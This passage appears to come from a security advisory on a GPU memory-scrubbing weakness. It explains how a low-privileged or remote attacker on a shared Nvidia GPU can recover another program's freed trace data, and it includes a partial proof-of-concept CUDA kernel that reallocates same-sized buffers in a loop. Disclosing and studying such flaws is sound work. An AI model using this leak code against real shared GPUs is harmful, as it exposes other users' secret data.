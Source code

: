 It is crucial to mention that Memory scrubbing is an undefined behaviour in CUDA/Nvidia drivers and is not a guaranteed feature. There are setups where the automatic memory scrubbing can be disabled, e.g: 

Some chips may not have it enabled

Most of the SLI configurations will have it disabled

Manual configurations can disable the feature

Older drivers don't have the feature implemented

Building sophisticated kernels to trick the driver into failing to allocate the scrubber’s internal structures. 

etc.

These situations can be observed in [Nvidia’s open-source kernel modules](https://github.com/NVIDIA/open-gpu-kernel-modules) source code; nevertheless, as most of the drivers' code is closed-source and undocumented, it is hard to tell which are the exact cases when the memory scrubbing is enabled or disabled. 

Given all this information, a low-privileged attacker (non-root) or even a remote attacker (in case the GPU resource is being shared and in an insecure manner) can create a malicious CUDA kernel to leak the secret data from the trace. The attacker can leverage the GPU allocator mechanisms to allocate the recently freed memory. Much like the libc’s malloc() function, the GPU memory allocator also tends to allocate the same-sized chunks from the recently freed list. This, and the fact that the memory allocation size for the trace is publicly known for every guest program, gives the attacker a big edge over the chances of a successful attack.

Example of attacking code:

```#include <stdio.h>

#define TRACE_SIZE 29229056 * 4 //this size is taken for JSON example

__global__
void leak(unsigned int* ptr1, unsigned int* ptr2)
{
  //we have two allocations of same size
  //there is some possiblity that ptr2 allocated the trace instead of ptr1
  //so we check it
  if(ptr1[TRACE_SIZE-1] != 0){ //we check the last element at it is a random element generated by executor in the compute_verify and most likely will not be 0
    for(int i=0; i<TRACE_SIZE; i++){
      ptr2[i] = ptr1[i];
    }
  }
  if(ptr2[TRACE_SIZE-1] !=0){
    return; //do nothing, we will always expect that ptr2 containt the leaked data
  }
}

int main(void)
{
  unsigned int* ptr1;
  unsigned int* ptr2;
  unsigned int* result = (unsigned int*)malloc(TRACE_SIZE);

  //starting race
  while(1){

    //hopefully one of this allocations will end up on trace
    cudaMalloc(&ptr1, TRACE_SIZE); 
    cudaMalloc(&ptr2, TRACE_SIZE);

    //try leak
    leak<<<1,1>>>(ptr1,ptr2);
```